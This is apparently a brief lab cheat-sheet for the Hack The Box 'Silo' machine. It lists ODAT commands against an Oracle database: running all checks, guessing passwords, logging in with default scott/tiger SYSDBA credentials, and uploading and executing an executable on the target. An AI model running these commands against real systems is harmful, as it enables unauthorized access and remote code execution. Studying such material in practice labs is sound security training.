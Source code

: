 # Tools
- ​ [Oracle Database Attack Tool (ODAT)](https://github.com/quentinhardy/odat)
```
All checks:
./odat.py all -s 10.10.10.82 -p 1521

Guess passwords:
./odat.py passwordguesser -d XE -s 10.10.10.82 -p 1521 --accounts-file /root/HTB/tools/db/odat/accounts/accounts.txt

Upload file:
./odat.py utlfile -d XE -s 10.10.10.82 -p 1521 -U scott -P tiger --sysdba --putFile c:/ writeup.exe ~/HTB/silo/writeup.exe

Execute file:
./odat.py externaltable -d XE -s 10.10.10.82 -p 1521 -U scott -P tiger --sysdba --exec c:/ writeup.exe
```
